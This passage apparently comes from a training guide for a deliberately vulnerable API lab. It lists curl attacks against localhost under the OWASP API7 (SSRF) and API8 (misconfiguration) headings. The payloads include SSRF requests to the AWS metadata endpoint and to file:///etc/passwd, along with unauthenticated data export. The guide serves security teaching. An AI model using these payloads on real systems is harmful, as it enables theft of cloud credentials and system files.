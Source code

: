## API7: Server-Side Request Forgery (SSRF)

### Attack: Access Internal Metadata
```bash
# Access AWS metadata (if running on AWS)
curl -sX GET "http://localhost:3000/api/v1/image/proxy?url=http://169.254.169.254/latest/meta-data/" | jq .
```

### Attack: Access Local Files
```bash
# Access local files (if file:// protocol allowed)
curl -sX GET "http://localhost:3000/api/v1/image/proxy?url=file:///etc/passwd" | jq .
```

### Attack: Access Internal Services
```bash
# Access internal services
curl -sX GET "http://localhost:3000/api/v1/image/proxy?url=http://localhost:3000/healthz" | jq .
```

**Expected Result**: Internal network access is possible.

## API8: Security Misconfiguration

### Attack: Unauthenticated Data Export
```bash
# Export all items without authentication
curl -sX GET "http://localhost:3000/api/v1/export/csv" | head -10
```

### Attack: Access Swagger Documentation
```bash
# Access API documentation without authentication
curl -sX GET "http://localhost:3000/docs" | grep -i "swagger"
```

### Attack: Directory Listing
```bash
# Access directory listing
curl -sX GET "http://localhost:3000/public" | grep -i "directory"
```

### Attack: Verbose Error Messages
```bash
# Trigger error to see stack trace
curl -sX GET "http://localhost:3000/api/v1/items/search?pageSize=not-a-number" | jq .
```

**Expected Result**: Sensitive information is exposed.

## API9: Improper Inventory Management
